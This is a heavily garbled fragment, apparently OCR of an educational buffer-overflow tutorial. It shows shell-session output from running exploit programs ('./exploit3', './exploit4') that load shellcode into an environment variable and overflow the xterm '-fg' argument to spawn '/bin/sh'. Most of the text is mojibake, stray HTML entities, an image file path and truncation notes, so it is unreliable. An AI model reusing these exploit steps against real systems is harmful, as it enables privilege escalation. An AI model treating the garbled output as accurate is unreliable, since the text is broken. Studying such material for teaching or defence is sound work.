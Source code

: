 &nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; 骎

?へ@よ?in/shいいいいいいいいいいいいいいいいいいいいいいいいいいいいいいいいいい

いいいいいいいいいいいいいいいいいいいいいいいいい&#164;

(此处截短多行输出)

いいいいいいいいいいい?いいいい

^C
  
[aleph1]$ exit
  
[aleph1]$ ./exploit3 2148 100

Using address: 0xbffffd48
  
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG

Warning: Color name "隵1F

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&#176;

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; 骎

?へ@よ?in/sh

&#164;

(此处截短多行输出)

縃arning: some arguments in previous message were lost

Illegal instruction
  
[aleph1]$ exit

.

.

.
  
[aleph1]$ ./exploit4 2148 600

Using address: 0xbffffb54
  
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG

Warning: Color name "隵1F

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&#176;

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; 骎

?へ@よ?in/sh鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗

鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗?
